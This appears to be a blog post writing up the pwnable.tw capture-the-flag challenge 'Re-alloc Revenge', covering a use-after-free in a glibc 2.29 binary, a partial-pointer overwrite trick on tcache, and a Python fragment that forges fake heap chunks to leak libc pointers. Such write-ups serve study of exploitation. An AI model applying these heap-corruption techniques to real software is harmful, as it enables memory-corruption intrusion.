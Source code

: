 ```yaml
---
layout: post
title:  "Pwnable.tw - Re-alloc Revenge"
date:   2025-01-14 19:59:45 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Re-alloc Revenge

```bash
$ checksec ./re-alloc_revenge
[*] '/home/itay/projects/pwnable_tw/re-alloc_revenge/re-alloc_revenge'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    FORTIFY:    Enabled
    Stripped:   No

$ file ./re-alloc_revenge
./re-alloc_revenge: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.29.so, for GNU/Linux 3.2.0, BuildID[sha1]=a93ffa9d1472955c6ee86b3c19759e6295f65f70, not stripped
```

Very similar to re-alloc challenge (also same libc) - but this time, PIE and full RELRO are enabled.

## Overview

The challenge is identical to Re-alloc, but with harsher mitigations. \
This means that as before, we have UAF, allowing us to overwrite freed chunk's metadata. 

### Write primitive

We have the exact same write primitive as before - we can freely write into chunks metadata. 
The main challenge is that we don't have any leak. \
A cool trick we can do, is utilize the fact that our write primitive starts overwriting chunk's `next` pointer. 
Hence, even without a heap leakage, due to ASLR not affecting the lowermost 12 bits, we can (almost) deterministically overwrite heap addresses, by only writing their 2 LSBs (we would win at 1/16 chance, as there should be one randomized nibble). \
So by doing so, **we have arbitrary heap write primitive**. \
What can we do with it? 

The heap seems pretty empty, except for one extra chunk, the `tcache_perthread_struct`:

```bash
pwndbg> heap
Allocated chunk | PREV_INUSE
Addr: 0x64257eba6000
Size: 0x250 (with flag bits: 0x251)

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x64257eba6250
Size: 0x30 (with flag bits: 0x31)
fd: 0x64257eba6290

Free chunk (tcachebins) | PREV_INUSE
Addr: 0x64257eba6280
Size: 0x30 (with flag bits: 0x31)
fd: 0x00

Top chunk
Addr: 0x64257eba62b0
Size: 0x20c00 (with flag bits: 0x20c00)
```

This is the first allocated chunk:

```c
# define TCACHE_MAX_BINS		64
typedef struct tcache_perthread_struct
{
  char counts[TCACHE_MAX_BINS];
  tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

Hence, a total of `64 * (1 + 8) = 0x240` bytes. 
As we can see, including the metadata, it have been allocated within a bin corresponds to size class `0x250`. \
This gives me a new idea - while we can regularly allocate only chunks within the tcache range, because we have arbitrary heap-write primitive, we can create fake chunks - having sizes outside of the tcache range. Such chunks allocations / deallocations would leave trails of their corresponding bin heads within the `main_arena` - hence, leave trails of libc pointers within the heap. \
I've tried and eventually suceedded to create chunk that would have size class past the limit of `0x80`:

```python
fake_size = 0x90
    # Allocate chunks
    fake_chunk = p64(0)         # will get corrupted by next
    fake_chunk += p64(0)        # and by key
    fake_chunk += p64(0)        # prev_size
    fake_chunk += p64(fake_size | 0x1)     # new size
    alloc(p, 0, alloc_size, fake_chunk)    

    fake_next_chunk = b'A' * (fake_size - chunkSize(alloc_size) + 0x10)
    fake_next_chunk += p64(fake_size)  # prev_size, match the fake chunk
    fake_next_chunk += p64(fake_size | 0x1)
    alloc(p, 1, alloc_size, fake_next_chunk)

    # Make sure the second chunk's next is initialized to non-NULL
    free(p, 0)
    realloc(p, 1, 0, b'')

    # Overwrite 'next' LSB, so that it would point to the fake chunk
    realloc(p, 1, alloc_size, b'\x80')

    # Consume tcachebin head. Now the fake chunk is the tcache head!
    alloc(p, 0, alloc_size, p64(0))

    # We now want the 2 slots to be available. 
    # Increment size, prepare to free on different bin
    realloc(p, 1, alloc_size + 0x10, fake_chunk)
    # Return 
    free(p, 1)
    # The same for the other chunk
    realloc(p, 0, alloc_size + 0x20, fake_chunk)
    free(p, 0)

    # Consume the fake chunk, to be sent to its fake freelist!
    alloc(p, 0, alloc_size, b'B')
    # Notice - we MUST make sure its fake 'next' chunk isn't beyond top. 
    # That's why I had to forge a perfect fake next chunk for. 
    # Free it. Now libc pointers would be here!
    free(p, 0)
```

... only to recall it is still within the tcache range (but not within the fastbins T_T). \

Since overwriting the `tcache_perthread_struct` would give us arbitrary write (which we already have) without any leak, nor leak any libc pointer (as it doesn't contains any pointers to the main arena), at this point I've decided there are very few options in which we can pop libc pointers:

1. Rely on other heap structures. We don't have anything though, yay.

2. Try harder to create non-tcache non-fastbin chunks. This way, upon freeing them, they would leave `fd, bk` that would point to their head within libc's main arena. But.. its hard, as we have only 2 allocations, and very harsh size restrictions. 

3. Mess with the top chunk. Exhausing it would eventually leave `fd, bk` pointers - just as a regular chunk. As mentioned, we cannot exhaust it legitimately, as we cannot make enough allocations. However, we can utilize the heap-arbitrary-write in order to overwrite its size to some very low value, hence - exhaust the top chunk. Notice that there are few mitigations regarding the top chunk, the hardest one requires it to end within a page boundary. 
